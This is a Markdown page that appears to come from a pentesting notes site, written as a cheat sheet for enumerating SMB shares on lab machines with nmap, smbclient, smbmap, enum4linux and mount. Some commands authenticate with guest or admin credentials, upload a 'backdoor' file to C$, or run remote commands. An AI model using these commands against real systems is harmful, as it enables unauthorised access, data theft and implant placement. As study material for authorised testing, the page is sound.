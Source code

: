 ```yaml
---
layout: default
title: 445 | SMB
parent: Service Enumeration
nav_order: 4
---
```


# 445 | SMB

---

## Nmap Vuln Scan

```bash
nmap --script smb-vuln* -p 445 10.10.10.161
```

## Smbclient

### Enumerate shares

```bash
# List shares (-L) and check for null session (-N)
smbclient -L 10.10.2.7 -N

# With username and password
smbclient -L 10.10.2.7 -U jane
```

### Connect to share

```bash
# Check for null session with -N
smbclient //10.10.10.161/share

# With username and password
smbclient //10.10.2.7/jane -U jane
```

## SMBMap

### Enumerate shares

```bash
smbmap -H 10.10.10.161

# enumerate shares and list permissions with random/fake username
smbmap -H 10.10.10.161 -u asdfasdfasdf

# enumerate contents of specific share (ex. Replication)
smbmap -R Replication -H 10.10.10.161
```

### Authenticate to share

If we know there is SMBv1 enabled we can try authenticating with the “guest” user and a null password.

```bash
smbmap -u guest -p "" -d . -H 10.10.227.220
```

If we have discovered credentials we can attempt authentication.

```bash
smbmap -u administrator -p smbserver_771 -d . -H 10.10.227.220
```

### Connect to share

```bash
smbmap -H 10.10.2.7 -u admin -p password1

smbmap -d active.htb -u svc_tags -p password -H 10.10.10.161 -R users
```

### Connect to drive

```bash
smbmap -u administrator -p smbserver_771 -H 10.10.227.220 -r 'C$'
```

### Upload file to drive

```bash
smbmap -u administrator -p smbserver_771 -H 10.10.227.220 --upload '/root/backdoor'/
'C$\backdoor'
```

### Download file from share

```bash
smbmap -R Replication -H 10.10.10.161 -A groups.xml
```

### Download file from drive

```bash
smbmap -u administrator -p smbserver_771 -H 10.10.227.220 --download 'C$\flag.txt'
```

### Run commands remotely

Run a command using the '-x' flag

```bash
smbmap -u administrator -p smbserver_771 -d . -H 10.10.227.220 -x 'ipconfig'
```

## Enum4Linux

```bash

enum4linux -a 10.10.10.161

# Enumerate operating system
enum4linux -O 10.10.2.7

# Enumerate users
enum4linux -U 10.10.2.7

# Enumerate groups
enum4linux -G 10.10.2.7
```

## Mount SMB Share

```bash
# create directory
sudo mkdir /mnt/smb

# mount smb share
sudo mount -t cifs //10.10.10.161/Backups /mnt/smb

# mount with user creds
sudo mount -t cifs -o 'username=l.frost,password=welcom2019' //10.10.10.161/Users /mnt/l.frost/
```

## SMBget - Download Share

```bash
smbget -R smb://10.10.10.161/share
```

## Manual Null Session Testing (Windows)

```bash
net use \\TARGET\IPC$ "" /u:""
```
